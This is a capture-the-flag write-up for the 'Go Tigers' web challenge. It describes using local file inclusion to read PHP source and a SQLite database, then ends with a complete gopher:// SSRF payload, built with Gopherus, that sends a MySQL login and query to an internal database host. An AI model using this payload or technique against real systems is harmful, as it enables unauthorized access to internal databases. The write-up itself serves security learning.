








# Go Tigers
## Flag Format
flag{xxxxx}
## Hint
`no hint`
## Solution
Challenge : https://tigers.ctf.cert.unlp.edu.ar/

I entered this website and found two input box.

| Input             | About                                                                |
| ----------------- | ------------------------------------------------------------------ |
| First Box |   SQL Injection , search by tiger_id   |
| Second Box |  Local File Include    |



I used second input box to make the php error.
So It appear error and location of index.php at `/var/www/html/index.php`


let's read index.php and I found sth interesting at line 6. `../tiger.db`


So you can dump this file and open it with `DB Browser (SQLite)`
you will get password for login at `/admin.php` (you can get it from robots.txt)


We can read admin.php by the same as old method.
And We will know this website can check status by ping command and may do Command Injection,
SSRF attack or something else.I tried to bypass escapeshellcmd and escapeshellarg but It's very difficult to bypass.
I cannot pass after this mama T-T.



By observing at the db_status, we can connect mysqlsafedb.com:3306.
From name of challenge it hint us at `"GO"` word.
There is a protocol that can connect to mysql which is `gopher://`
So I found tools for craft exploit payload => [Gopherus](https://github.com/tarunkant/Gopherus)
and We can get mysql username from comment in admin.php.

Payload :
```
gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%44%41%54%41%42%41%53%45%53%3b%01%00%00%00%01
```


Change hostname in payload to  `mysqlsafedb.com:3306` and Use this to exploit.

GOTCHA.
Finally, I got the flag.



